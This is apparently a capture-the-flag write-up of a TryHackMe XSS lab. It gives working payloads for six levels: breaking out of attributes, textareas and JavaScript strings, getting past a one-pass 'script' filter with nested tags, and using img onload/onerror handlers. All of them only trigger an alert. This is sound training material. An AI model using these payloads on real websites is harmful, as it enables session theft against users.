## Scenario

> The payload is the JavaScript code we want to execute either in another user's browser or as a proof-of-concept to demonstrate a vulnerability on a website.
> 
> Your payload could have many purposes, from simply displaying a JavaScript alert box to prove we can execute JavaScript on the target website to extracting information from the webpage or the user's session.
> 
> How your JavaScript payload is reflected in a target website's code will determine which payload you need. To further practice this, access the website on http://10.114.191.57 or use https://10-114-191-57.reverse-proxy.cell-prod-eu-central-1c.vm.tryhackme.com, which will show the following page:
> 
> 
> 
> The aim for each level will be to execute the JavaScript alert function with the string "THM", like:
> 
> ```html
> <script>alert('THM');</script>  
> ```

Access via: `http://10.114.191.57`

Alternate access via: `https://10-114-191-57.reverse-proxy.cell-prod-eu-central-1c.vm.tryhackme.com`

The module has a hand-held guide for this challenge, but I decided to work through the six levels without it and only consult it if I got properly stuck.

## Level 1



Straightforward. I entered the goal payload directly into the Enter Your Name field:

```html
<script>alert('THM');</script>
```

The alert box appeared with "THM" in it, and the page confirmed the payload was successful, moving me on to Level 2.





## Level 2

I tried the same payload that worked on Level 1:

```html
<script>alert('THM');</script>
```

It failed. To see what was going on, I entered a plain test value, `test`, instead. I looked in the DOM for it but couldn't immediately spot it, so I checked the page source directly. That showed the value was being placed inside an HTML attribute:

```html
<h2>Hello, <input value="test"></h2>
```



It's enclosed in quotation marks, so it's being rendered as a string value rather than as page content, which is why `<script>` tags typed straight in don't do anything. The fix is to close the quote and the `<input>` tag first, then open a fresh `<script>` tag:

```html
"><script>alert('THM');</script>
```


Submitted that as the Level 2 payload. The alert fired with "THM", and the page confirmed success, moving on to Level 3.



## Level 3

Sent another test payload first to see where the input lands this time. The page source showed the value wrapped in a `<textarea>` tag:

```html
<h2>Hello, <textarea>test</textarea></h2>
```

Everything inside a `<textarea>` is treated as plain text, which includes anything typed into it, so the same escape idea applies but against the `<textarea>` tag instead of an attribute:

```html
</textarea><script>alert('THM');</script>
```

Submitted that as the Level 3 payload. The alert fired with "THM", and the page confirmed success, moving on to Level 4.


## Level 4

Sent a test payload of `test` first. The page showed "Hello, test" but reported the payload as failed. Checking the source, the value this time was being written into the page from inside an existing `<script>` block, via `innerHTML`:

```html
<script>
    document.getElementsByClassName('name')[0].innerHTML='test';
</script>
```



### First Attempt

My first idea was to break out of the string and open a brand new `<script>` tag, the same pattern that worked for Levels 2 and 3:

```html
'<script>alert('THM');</script>//
```

The intent was for this to sit inside the existing `innerHTML='...'` assignment as `document.getElementsByClassName('name')[0].innerHTML='<script>alert('THM');</script>//';`, with the `//` commenting out the stray trailing `';`.

This failed. The page also showed the literal text `//';` on the page.



Checking the source confirmed what had actually been written:

```html
<script>
    document.getElementsByClassName('name')[0].innerHTML='<script>alert('THM');</script>//';
</script>
```



The problem was that I was already inside a `<script>` block, so adding another `<script>` tag wasn't needed — and worse, the injected `</script>` closed the _outer_ script block early, which is what broke the rest of the line and left the stray `//';` sitting on the page as plain text instead of running as code.

### Working Payload

I didn't need a new `<script>` tag at all, just a way to end the assignment statement and start a fresh JavaScript statement in its place. I also added a semicolon before the `alert()` call so it reads as its own separate statement:

```html
';alert('THM');//
```

This sits inside the existing script block as `document.getElementsByClassName('name')[0].innerHTML='';alert('THM');//';`, which runs cleanly as two JavaScript statements followed by a comment.

Submitted that as the Level 4 payload. The alert fired with "THM", and the page confirmed success, moving on to Level 5.


## Level 5

Sent a test payload first, same approach as before. Nothing obviously different stood out at first, so I sent a test XSS payload to see the actual mechanism at work:

```html
<script>alert('test');</script>
```

The page source showed the `<script>` and `</script>` portions of the tag had been stripped out entirely, leaving broken, mismatched markup behind:

```html
<h2>Hello, <>alert('test');</></h2>
```



The word "script" was being removed from the input. To check whether this filtering ran only once or recursively, I tried nesting an extra `script` inside the tag names, so that once the inner `script` is stripped, a valid `<script>` tag is left behind:

```html
<sscriptcript>alert('THM');</sscriptcript>
```

Submitted that as the Level 5 payload. The filter only ran once over the input rather than recursively, so stripping the inner `script` left a working `<script>alert('THM');</script>` tag behind. The alert fired with "THM", and the page confirmed success, moving on to Level 6.


## Level 6

This level asks for an image path instead of a name, with a default value already filled in.



Running it as-is with the default value. 


The page source showed the value was being written straight into an `` tag's `src` attribute:

```html
<div class="text-center">
    <h2>Your Picture</h2>
    
</div>
```



### Working Payload — `onload`

The simplest option was to close the `src` attribute early and add an `onload` event handler to the `` tag itself:

```html
/cat.jpg" onload="alert('THM');">
```

 `onload="alert('THM');"` adds a new attribute, `onload`, which is a JavaScript event handler that fires once the image has finished loading
 
This builds ``. Submitted that as the Level 6 payload. The alert fired with "THM", and the page confirmed success.

### Alternate Payload — `onerror`

If there hadn't been a known-good image path like `/cat.jpg` to fall back on, the same idea works with a deliberately broken `src` and an `onerror` handler instead of `onload`:

```html
" onerror="alert('THM');">
```

 `onerror="alert('THM');"` fires the alert when the browser fails to load the (now empty) image source.

This builds ``. Since the `src` is empty, the image never loads, which is exactly what triggers the `onerror` handler.


### Question — What is the flag you received from level six?

**Answer:** `—REDACTED—`